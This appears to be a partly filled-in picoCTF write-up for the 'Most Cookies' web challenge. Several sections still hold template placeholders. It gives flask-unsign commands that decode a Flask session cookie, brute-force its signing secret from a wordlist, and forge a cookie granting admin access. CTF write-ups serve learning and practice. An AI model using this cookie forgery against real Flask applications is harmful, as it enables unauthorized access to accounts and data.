







# CTF Write-Up: [Most Cookies][Web Exploitation]

## Description

## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{pwn_4ll_th3_cook1E5_478da04c`}

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- `flask-unsign` 

## Write-Up

### Step 1: [Prepartory]
- In the description it stated the challenge related to flask cookies. Therefore upon searching up 'flask cookies CTF' 
on Google I came across an article stating how to use `flask-unsign.` 
Source: https://github.com/Paradoxis/Flask-Unsign
- Static analysis revealed the following information:
1. 
The secret key can be brute-forced from the list named `cookie_names`

2. 
In order to obtain the flag we need to modify the cookie such that `session[very auth] = "admin"'
### Step 2: [Attack]
- Go into inspect element then into the application tab in order to obtain the cookies.

- Copy and paste the cookie and use `flask-unsign --decode --cookie <cookie>`

- Create a `keys.txt` file consisting of the entries from the `cookie_names.` Run `flask-unsign --wordlist keys.txt --unsign --cookie <cookie> --no-literal-eval`.

- Use the secret key obtained to sign `{'very_auth': 'admin'}` using `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '<insert key found>'`
- Then we can modify the cookie field in the inspect element tab to the encrypted cookie.

### Final Solution/Payload
- Summarize how you arrived at the final solution and any critical insights that helped you solve the challenge.

## Lessons Learned
- Discuss what you learned from the challenge and any techniques or concepts you found particularly interesting.

## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

